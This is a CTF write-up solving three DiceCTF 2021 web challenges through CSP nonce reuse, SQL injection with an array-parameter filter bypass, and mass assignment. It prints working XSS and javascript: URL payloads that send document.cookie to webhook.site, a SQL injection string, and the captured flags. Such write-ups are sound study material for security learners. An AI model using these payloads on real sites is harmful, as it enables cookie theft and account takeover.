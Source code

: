 **[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```python
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```python
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
Host a server using webhook.site, redirect and get the cookie
```javascript
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```sql
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

**[web/Web Utils](https://web-utils.dicec.tf/)**  
We have source code [app.zip](https://lhtthao0430.github.io/web/dice/Web_Utils/app)
In [app/route/api.js]((https://lhtthao0430.github.io/web/dice/Web_Utils/app/route/api.js), line 39 we have spread oparator
```javascript
database.addData({ type: 'paste', ...req.body, uid });
```
[View source](https://web-utils.dicec.tf/view/iuwnxMEs), in line 11 we have
```javascript
if (type === 'link') return window.location = data;
```
We can change the req.body when createPaste to
```json
{"data":"some data","type":"link"}
```
It will understand that is a link and run window.location = data;  
Host a server using webhook.site, redirect and get the cookie
```json
{"data":"javascript:location.href='https://webhook.site/cf48efac-98a3-46d2-83af-141e6d39f133?data='+document.cookie","type":"link"}
```
Send the link to [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils) and get the flag
```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```